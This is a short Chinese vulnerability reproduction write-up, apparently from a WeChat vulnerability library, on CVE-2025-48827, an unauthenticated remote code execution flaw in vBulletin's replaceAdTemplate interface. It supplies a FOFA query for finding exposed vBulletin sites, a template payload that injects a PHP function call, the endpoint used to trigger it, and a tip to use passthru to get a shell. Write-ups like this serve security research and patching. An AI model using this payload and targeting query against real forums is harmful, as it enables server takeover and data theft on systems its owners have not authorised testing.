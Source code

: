 ## vBulletin 简介

微信公众号搜索：南风漏洞复现文库
该文章 南风漏洞复现文库 公众号首发

vBulletin论坛

## 2.漏洞描述

vBulletin是一个商业论坛程序。2025年5月，互联网上披露CVE-2025-48827 vBulletin replaceAdTemplat 远程代码执行漏洞，攻击者可构造恶意请求在无需登录的情况下执行任意代码控制服务器。

CVE编号:CVE-2025-48827

CNNVD编号:

CNVD编号:

## 3.影响版本

vBulletin论坛

## fofa查询语句

product="vBulletin"

## 5.漏洞复现

template参数的参数值：<vb:if condition='"var_dump"("tteesstt")'>

![图片](vBulletin%20replaceAdTemplat%E6%8E%A5%E5%8F%A3%E5%AD%98%E5%9C%A8%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9ECVE-2025-48827.assets/640.jpeg)

访问 https://xx.xx.xx.xx/ajax/render/ad_rce2
var_dump("tteesstt")函数执行成功。

![图片](vBulletin%20replaceAdTemplat%E6%8E%A5%E5%8F%A3%E5%AD%98%E5%9C%A8%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9ECVE-2025-48827.assets/640-1748568141165-1.jpeg)

这个漏洞有些函数是无法执行的，要getshell的话请使用passthru 函数